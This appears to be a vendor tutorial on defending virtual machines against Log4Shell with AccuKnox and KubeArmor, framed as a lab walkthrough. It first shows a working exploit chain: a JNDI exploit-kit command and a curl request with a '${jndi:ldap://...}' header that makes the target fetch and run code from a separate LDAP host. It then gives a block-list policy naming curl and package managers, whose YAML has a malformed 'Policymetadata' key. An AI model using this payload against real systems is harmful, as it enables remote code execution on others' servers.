


# Defending Against Log4Shell

The Log4Shell vulnerability (CVE-2021-44228) has demonstrated the critical need for robust runtime security in modern IT infrastructures. Attackers exploit this vulnerability by injecting malicious code via the vulnerable Log4j library, often leading to unauthorized system access. Here, we will show how to secure your virtual machines (VMs) against such attacks using **AccuKnox Runtime Security** and **KubeArmor**.

## Setting the Stage: The Attack Environment

Log4Shell leverages the **JNDI lookup functionality** in vulnerable Log4j versions. Attackers can trigger remote code execution by simply injecting a malicious payload into log messages.

## **The Victim: A Vulnerable Web Server**

The environment requires **Java 1.8.0_181** or a compatible version to simulate the attack.


Begin by cloning the vulnerable application repository from GitHub. This repository contains a Log4j-vulnerable application designed for testing.

`git clone https://github.com/christophetd/log4shell-vulnerable-app && cd log4shell-vulnerable-app`

After cloning the repository, navigate to the directory and build the application using Gradle. The command `./gradlew bootJar --no-daemon` compiles the application and prepares it for execution.


Once the build process completes, navigate to the `build/libs` directory and launch the application using Java. At this point, the application runs locally, simulating a system with the Log4Shell vulnerability.

`/opt/jdk/jdk1.8.0_181/bin/java -jar ./log4shell-vulnerable-app-0.0.1-SNAPSHOT.jar`


## Attack Scenario

The **Log4Shell** exploit allows attackers to manipulate vulnerable systems by injecting malicious payloads into application logs. The injected payload triggers a **JNDI lookup**, fetching an attacker-controlled resource and executing unauthorized code.

For example, an attacker might craft a payload using a **JNDI exploit kit**:

`java -jar JNDI-Exploit-Kit.jar -L localhost:1389 -C "curl http://localhost:9001"`


Prepare the HTTP server for reverse connection

`docker run --rm -p 9001:9001 hashicorp/http-echo -listen=:9001 -text="hello"`

This payload exploits the vulnerability, allowing the attacker to execute commands such as `curl`.

`curl http://172.16.250.140:8080/ -H 'X-Api-Version: ${jndi:ldap://172.16.250.141:1389/gog049}'`

As shown in the screenshot below, we observed the following, confirming the successful exploitation of Log4Shell:

- **LDAP server hit:** Indicates the vulnerable application initiated the JNDI lookup as instructed by the payload.

- **HTTP request:** Confirms the application executed the payload, triggering an HTTP request via the `curl` command.





## Securing Against Log4Shell Exploits with AccuKnox Runtime Security

AccuKnox Runtime Security offers real-time protection to defend against unauthorized or malicious activities by enforcing precise security policies within your environment. By leveraging AccuKnox's policy-driven approach, organizations can effectively block exploitation attempts like Log4Shell and safeguard sensitive assets from unauthorized access.

Let's walk through the steps to protect VMs from such attacks using **AccuKnox Runtime Security**:

**Ensure AccuKnox Runtime Security is Configured:** For virtual machines (VMs) environments, you can onboard them to the AccuKnox platform to extend runtime security capabilities. Follow the instructions provided in the official documentation: [Onboarding and Deboarding VMs with Systemd](https://help.accuknox.com/how-to/vm-onboard-deboard-systemd/ "https://help.accuknox.com/how-to/vm-onboard-deboard-systemd/"). By onboarding your VMs, you enable AccuKnox to monitor and protect workloads hosted on them, ensuring a comprehensive security posture.


**Navigate to Policies**: In the AccuKnox dashboard, access the **Policies** section under the **Runtime Security** tab. This is where you can define and enforce security rules to block exploitation attempts like the Log4Shell vulnerability.


**Apply Policies to Block Exploits**: Deploy relevant KubeArmor policies to restrict malicious behavior. For example, you can block unauthorized execution commands or access to sensitive resources by applying the following policy:


```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorHostPolicy
Policymetadata:
  name: disallow-exec
spec:
  severity: 1
  message: "disallow unwanted execings"
  nodeSelector:
    matchLabels:
      kubearmor.io/hostname: "*"
  process:
    matchPaths:
    - path: /usr/bin/apt
    - path: /usr/bin/apt-get
    - path: /bin/apt
    - path: /bin/apt-get
    - path: /usr/bin/dpkg
    - path: /bin/dpkg
    - path: /usr/bin/gdebi
    - path: /bin/gdebi
    - path: /usr/bin/make
    - path: /bin/make
    - path: /usr/bin/yum
    - path: /bin/yum
    - path: /usr/bin/rpm
    - path: /bin/rpm
    - path: /usr/bin/dnf
    - path: /bin/dnf
    - path: /usr/bin/pacman
    - path: /usr/sbin/pacman
    - path: /bin/pacman
    - path: /sbin/pacman
    - path: /usr/bin/makepkg
    - path: /usr/sbin/makepkg
    - path: /bin/makepkg
    - path: /sbin/makepkg
    - path: /usr/bin/yaourt
    - path: /usr/sbin/yaourt
    - path: /bin/yaourt
    - path: /sbin/yaourt
    - path: /usr/bin/zypper
    - path: /bin/zypper
    - path: /usr/bin/curl
  action: Block
metadata:
  name: disallow-exec
```

This policy ensures that malicious commands such as `curl` or `apt`, commonly used during exploitation attempts, are effectively blocked.

After enforcing the policy, AccuKnox Runtime Security triggers an alert if there are any violations. This alert provides detailed insights into the blocked exploit attempt, including information about the source of the malicious request, enabling you to monitor and respond to threats in real-time effectively



